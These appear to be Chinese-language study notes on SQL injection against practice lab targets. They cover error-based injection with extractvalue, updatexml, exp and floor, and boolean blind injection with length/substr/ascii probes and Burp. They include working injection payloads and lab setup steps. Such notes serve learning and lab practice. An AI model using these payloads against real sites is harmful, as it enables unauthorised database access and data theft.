~~~shell
login.php
admin

#问题
1、显示不变
id=-1

~~~



## 2、报错注入

~~~shell
172.168.20.40:8003/Less-1/?id=1
#过程
1、判断是否可以注入
2、使用报错注入:先让报错再加进去
(1)extractvalue
	extractvalue(1,'~')
	extractvalue(1,concat('~','111','222',database()))
(2)updatexml(1,'',1)
(3)exp()
(4)floor()
#实例
?id=1' and extractvalue(1,'~')
~~~



## 3、布尔盲注

没有报错也没有回显，只能一个一个试

~~~shell
http://172.168.20.40:8101/product.php?cid=3
#思路：判断是否正确；先判断正确的反应和错误的反应
1、手动
and length(database())>=5
and substr('abc',2,1)='b'
2、burp
3、密码大小写不区分的解决方法：转换
sniper 1

# 搭建环境
1、安装phpmyadmin
2、把网站放在www文件夹下
3、导入数据库
4、改变配置文件：密码设成root（query.php\conn.php\db-crate）

#语句
?G0=4 and ascii(substr(database(),1,1))=119 -- -
#可以转换成16进制，也可以转换成ascii码
~~~
